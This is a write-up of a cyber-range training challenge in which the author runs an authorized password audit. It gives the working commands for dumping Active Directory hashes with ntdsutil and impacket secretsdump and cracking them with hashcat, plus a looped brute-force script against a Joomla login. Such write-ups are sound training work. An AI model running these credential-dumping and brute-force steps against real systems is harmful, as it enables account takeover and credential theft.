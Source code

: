 # Challenge 11 (T0028) - Penetration Testing: Bringing Passwords Up To Snuff (Complexity 1)

## Challenge Info
**Author:** Bailey Kasin<br>
**Framework Category:** Protect and Defend<br>
**Specialty Area:** Vulnerability Assessment and Management<br>
**Work Role:** Vulnerability Assessment Analyst<br>
**Task Description:** Conduct and/or support authorized penetration testing on enterprise network assets.

### Scenario
We have reason to believe that some of our employees have weaker than should be acceptable passwords, so we want you to conduct authorized penetration testing against various company assets to determine which employees need to change their passwords.

### Additional Information
More details and objectives about this challenge will be introduced during the challenge meeting, which will start once you begin deploying the challenge.

You will be able to check your progress during this challenge using the check panel within the workspace once the challenge is deployed. The checks within the check panel report on the state of some or all of the required tasks within the challenge.

Once you have completed the requested tasks, you will need to document the methodology you used with as much detail and professionalism as necessary. This should be done on the documentation tab within the workspace once the challenge is deployed. Below the main documentation section be sure to include a tagged list of applications you used to complete the challenge.

Your username/password to access all virtual machines and services within the workspace will be the following...<br>
**Username:** `playerone`<br>
**Password:** `password123`

The username/password used to access the Firewall's web interface within the workspace will be the following...<br>
**Username:** `admin`<br>
**Password:** `password123`

## Meeting Notes
![](../images/challenge11/meeting_notes.png)

## Network Map
![](../images/challenge11/PD-map.jpg)

## Documentation
There were two objectives to this challenge:

1. Find and force a password reset for the accounts that were using compromised/insecure passwords in both the Active Directory (AD) and Joomla website systems.
2. Do not force a password reset for accounts that do not need it.

### Active Directory
Since I had admin access to AD, then it would be easy to retrieve a dump of password hashes for all user accounts.

In an admin-elevated PowerShell on the Domain Controller, I ran the following command:

```cmd
ntdsutil "ac i ntds" "ifm" "create full c:\temp\ntdsdump" q q
```

This provided me with a directory called `C:\temp\ntdsdump` with account data--including password hashes.

However, I needed a way to extract the hashes with their corresponding usernames. For this, I moved the data to a shared drive on a server `172.16.20.55`. I then logged into the Security-Desk Kali Linux computer and used `scp` to copy the data:

```bash
scp -r /home/share/management/tempntdsump/ playerone@172.16.20.55:~/
```

Now that I had the data, I could begin extracting and cracking the hashes. I used a combination of a Python module, called `impacket`, and hashcat to get the job done. The former would extract the hashes, while the latter would do the actual cracking with a wordlist on the Kali Linux box.

```bash
python3 ..impacket/examples/secretsdump.py -ntds ntds.dit -system ../registry/SYSTEM -hashes lmhash:nthash -output ntds.out LOCAL
grep -v '$:' ntds.out.ntds > ntds.out.filtered
hashcat -a 0 -m 1000 -w 3 -O -o cracked ntds.out.filtered /usr/share/wordlists/rockyou.txt
hashcat -m 1000 --show --username ntds.out.filtered
```

The end result was two accounts that had compromised passwords:

```
prettysafeelectronics.io/nkeefe
prettysafeelectronics.io/jcortes
```

Hopping back on the Domain Controller, I ran the following PowerShell cmdlets to force password resets on the next login event.

```pwsh
Get-ADUser jcortes | Set-ADUser -ChangePasswordAtLogon $true -PasswordNeverExpires $false
Get-ADUser nkeefe | Set-ADUser -ChangePasswordAtLogon $true -PasswordNeverExpires $false
```

### Joomla
This website was more challenging. I did not know of any way to dump the usernames and password hashes for the accounts on the site, so I instead took to using Metasploit to try and bruteforce my way into solving the problem.

I used the `auxiliary/scanner/http/joomla_bruteforce_login` module in Metasploit, but this did not work; the module failed to compromise any accounts.

The commands I attempted to use were the following:

```bash
msfconsole
use auxiliary/scanner/http/joomla_bruteforce_login
set PASS_FILE /usr/share/wordlists/rockyou.txt
set USER_FILE ./joomlausers
set RHOSTS 172.16.10.100
set STOP_ON_SUCCESS true
exploit
```

However, I was able to use a [Python script](https://github.com/ajnik/joomla-bruteforce) to crack the accounts:

```bash
while read i; do echo -e "Cracking "${i};python3 joomla-brute.py -u http://172.16.10.100 -w rockyou.txt -usr ${i};done < joomlausers
```

The result accounts needed their passwords reset:

```
manderson
tclark
admin
```

## NICE Framework & CAE KU Mapping
### NICE Framework KSA
- A0123. Ability to apply cybersecurity and privacy principles to organizational requirements (relevant to confidentiality, integrity, availability, authentication, non-repudiation).
- K0002. Knowledge of risk management processes (e.g., methods for assessing and mitigating risk).
- K0003. Knowledge of laws, regulations, policies, and ethics as they relate to cybersecurity and privacy.
- K0004. Knowledge of cybersecurity and privacy principles.
- K0005. Knowledge of cyber threats and vulnerabilities.
- K0009. Knowledge of application vulnerabilities.
- K0044. Knowledge of cybersecurity and privacy principles and organizational requirements (relevant to confidentiality, integrity, availability, authentication, non-repudiation).
- K0167. Knowledge of system administration, network, and operating system hardening techniques.
- K0206. Knowledge of ethical hacking principles and techniques.
- K0342. Knowledge of penetration testing principles, tools, and techniques.
- S0044. Skill in mimicking threat behaviors.
- S0051. Skill in the use of penetration testing tools and techniques.

### CAE Knowledge Units
- Cybersecurity Ethics
- Cybersecurity Foundations
- Cybersecurity Planning and Management
- Cybersecurity Principles
- Cyber Threats
- Penetration Testing
- Policy, Legal, Ethics, and Compliance
- Privacy
- Web Application Security
